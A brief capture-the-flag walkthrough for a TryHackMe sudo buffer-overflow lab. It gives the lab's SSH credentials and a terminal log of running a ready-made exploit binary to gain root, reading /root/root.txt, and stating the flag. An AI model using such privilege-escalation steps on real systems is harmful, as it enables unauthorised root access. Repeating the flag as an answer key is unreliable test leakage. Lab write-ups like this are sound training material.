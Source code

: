 # Sudo Buffer Overflow | https://tryhackme.com/room/sudovulnsbof

### [Task 2] Buffer Overflow

ssh -p 4444 tryhackme@10.10.164.254
Password : tryhackme 

```
ssh -p 4444 tryhackme@10.10.164.254
tryhackme@10.10.164.254's password: 
Last login: Thu Jun 18 03:30:09 2020 from 10.9.18.54
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 
Sorry, try again.
# 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
# cat /root/root.txt
THM{buff3r_0v3rfl0w_rul3s}
```

#2	What's the flag in /root/root.txt? : `THM{buff3r_0v3rfl0w_rul3s}`

